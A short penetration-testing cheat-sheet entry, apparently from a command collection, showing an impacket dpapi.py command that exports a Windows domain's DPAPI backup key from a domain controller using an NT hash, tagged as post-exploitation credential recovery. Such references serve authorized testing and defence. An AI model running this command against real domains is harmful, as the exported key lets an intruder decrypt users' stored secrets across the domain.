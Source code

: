# dpapi (imp)

% impacket-secrets, windows, smb, 445

## dump the domain backup key
#plateform/linux #target/remote #cat/POSTEXPLOIT/CREDS_RECOVER 
```
dpapi.py backupkeys --export -hashes <nt_hash>  -t  <domain>/<user|Administrator>@<dc_ip>
```